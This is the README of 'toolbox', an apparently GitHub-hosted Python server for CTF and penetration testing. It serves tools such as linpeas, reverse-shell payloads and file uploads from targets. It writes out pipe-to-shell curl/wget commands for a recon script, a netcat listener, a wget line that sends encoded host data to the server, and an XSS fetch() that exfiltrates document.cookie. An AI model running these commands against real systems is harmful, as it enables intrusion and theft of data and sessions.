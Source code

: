 # toolbox

Currently toolbox provides functionality similar to `python3 -m http.server`, it will:

- Serve the files within the provided directory
- Serve common CTF tools, such as linpeas.sh and static binaries
- Serve payload/shell generation

## Installing

```
git clone https://github.com/AlanFoster/toolbox.git
```

Install the dependencies:
```
cd toolbox
git submodule update --init --recursive
pip3 install -r requirements.txt
```

Verify it works:

```
python3 toolbox.py --help
```

## Using Docker


Build the image:

```
docker build -t toolbox .
```

Example usage:

```
docker run -it --rm -p 8000:8000 toolbox /bin/sh -c "python toolbox.py serve -p 8000 ."
```

## Running

### Server

The server will:
- Serve the files within the provided directory
- Serve common CTF tools, such as linpeas.sh and static binaries
- Serve payload/shell generation

Usage:

```
python3 toolbox.py serve -p 8000 .
```

You can now visit the running server at `http://localhost:8000`

![Example of the running server](./images/server.png)

By default the server supports the following files:

- [Payloads](toolbox/server/templates/modules)
- [Common tools](toolbox/config.json)

### Workflows

#### Generating payloads

The home page will show all available payloads and can be accessed on the target machine.

For example using `shell.sh`:

- `/shells/shell.sh` - running on default host/port 127.0.0.1 4444
- `/shells/shell.sh/4444` - custom port
- `/shells/shell.sh/127.0.0.1/4444` - custom host and port

On the host machine you create a listener as normal:

```
rlwrap nc -lnvp 4444
```

#### Uploading files

If you wish to upload files to your host machine from a target you can generate temporary one time upload tokens. Note that this functionality requires that the server be started with a secure `--password` flag, otherwise it is disabled from the interface:

```
python3 toolbox.py serve -p 8000 --password 2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824 .
```

When the browser prompts for authentication only the password is required:

![Upload file name](./images/upload_file.png)
![Upload file token authentication](./images/upload_file_token_authentication.png)
![Upload file token](./images/upload_file_token.png)

After running the generated command on the target machine the file will be accessible on the host machine. Note that this token will be invalidated after use, and cannot be reused:

![Upload file command on target](./images/upload_file_target.png)

#### Remote target recon

The `recon.sh` script is great for use in the scenario of having initial remote code execution and you want to upgrade to a working shell. This script will log information about the remote target which you can then use to select the best reverse shell payload.

First run the `recon.sh` script on the target machine with either `curl` or `wget`:

```
curl http://localhost:8000/shells/recon.sh | sh
wget http://localhost:8000/shells/recon.sh -O- | sh
```

The server console will now log information about the remote target. In the below scenario we can see that the target is running as `root`, and has both `nc` and `python3` available - which is enough information to decide on a reverse shell payload:

![Example of the extracting data from the target](./images/recon.png)

Note that this remote logging functionality is implemented by making HTTP requests to the server with a base path of `/debug`. The `value` query string parameter will additionally be base64 decoded and highlighted in green. This means you can easily extract arbitrary information from the host machine, examples:

```bash
wget "http://localhost:8000/debug/"
wget "http://localhost:8000/debug/hello_world"
wget "http://localhost:8000/debug/tools/python/?value=$(python --version 2>&1 | base64 | tr -d \\n | sed -e 's/+/%2B/' -e 's#/#%2F#')" -O /dev/null
```

The `/debug` endpoint can be great for validating XSS payloads too. For instance within JavaScript you could use the following to track important parts of your XSS payload:

```javascript
fetch("http://server_ip:8000/debug/xss_code_started");
fetch(`http://server_ip:8000/debug/extracted_cookies?value=${encodeURI(btoa(document.cookie))}`);
```

## Contributing

### Updating requirements.txt

Updating `pipenv` currently requires a manual change to `requirements.txt`.
This file will not contain dev-dependencies and is meant for end-users.

```
pipenv lock -r > requirements.txt
```

### Adding additional tools

You can add additional third party projects by creating a new Git submodule:

```
git submodule add https://github.com/owner/project_name third_party/project_name
```

And updating the associated [configuration file](toolbox/config.json) to include the new tool.

### Running tests

You must first install the developer dependencies:

```shell
pipenv install --dev
```

Enter a Python environment:

```shell
pipenv shell
```

Running all tests:

```shell
pytest
```

To run only one set of tests add the focus marker:

```python
@pytest.mark.focus
def test_some_method():
    assert 1 == 1
```

Run with:

```shell
pytest -m focus
```

To enter an interactive debugging environment place either of the two lines into your code:

```python
breakpoint()
import pdb; pdb.set_trace()
```

Updating third party dependencies:

```
git submodule update --remote
```

## Planned

- Configure setup.py to install only the required source code + data files + licenses
- Automated github actions to ensure the latest third party libraries are downloaded
- Potentially add exploits with configurable payloads
- Shell listener support, instead of `rlwrap nc`
- Generate one time upload tokens from the command line directly, with/without the server running
- Add additional files:
  - Static pspy64
  - Static Docker client
